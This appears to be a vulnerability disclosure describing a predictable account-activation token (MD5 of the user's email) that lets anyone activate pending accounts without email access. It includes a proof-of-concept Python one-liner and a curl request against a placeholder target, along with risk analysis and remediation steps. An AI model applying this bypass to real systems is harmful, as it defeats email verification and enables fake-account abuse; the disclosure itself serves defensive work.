



# Description

Predictable account-activation token (CWE-330 / CWE-340). The activation token equals `MD5(<registered_email>)` — no salt, no server secret, no expiry, no per-request entropy. For any user `victim@tbox.traced`, the activation URL is fully derivable offline:

```
/account/activate/?username=<username>&token=<MD5("victim@tbox.traced")>
```

An attacker who knows (or enumerates) a pending account's e-mail computes the token in microseconds and activates the account without ever receiving the e-mail, defeating the email-verification gate entirely.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Compute `MD5(email)` offline. | Activation token, zero round-trips. |
| 2 | `GET /account/activate/?username=<u>&token=<MD5>`. | `200 — Account Activated`. |
| 3 | The account is now activated without email verification. | Email-ownership gate fully bypassed. Login still requires the account password. |

# PoC

**1. Derive the token offline and activate:**

```bash
python3 -c "import hashlib;print(hashlib.md5(b'predtoken_x@tbox.traced').hexdigest())"
# 0cc5813b2c72eb33e4725dbc46c80544
curl "http://<TARGET>/account/activate/?username=predtoken_x&token=0cc5813b2c72eb33e4725dbc46c80544"
# 200 → <h1>Account Activated!</h1>
```



**2. The predicted token equals the server-emitted token (bit-for-bit):**

| Username | MD5(email) | Server-emitted token |
|----------|------------|----------------------|
| arthur | `3eca0c12…55faa` | `3eca0c12…55faa` ✓ |
| mleko | `a2c050f0…819b2` | `a2c050f0…819b2` ✓ |



**3. End-to-end bypass** — register → derive → activate, never touching the mailbox (login still requires the password set at registration):



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Email-ownership verification fully bypassed; any signup can be activated by anyone who knows the email. The attacker who registered the account already knows the password; an attacker activating someone else's pending registration bypasses the email gate but still needs the password. |
| Availability | Bulk fake-account / fake-activation factory pointing at e-mails the attacker doesn't own. |

Compounds with the enumerable user lists (`/api/users`) into a one-pass, no-guess attack on every pending account. No detection signal. Overall severity: **High**.

# Remediation

1. **Generate tokens from a CSPRNG** (`secrets.token_urlsafe(32)`), store server-side bound to the user id, match the supplied value against the stored token.
2. **Short TTL + single-use** invalidation.
3. If stateless is required, **HMAC with a real server secret** (`HMAC(SECRET, user_id||expiry)`).
4. **Log activation attempts** with source IP and alert on anomalies.

# Author
Hackrapovic
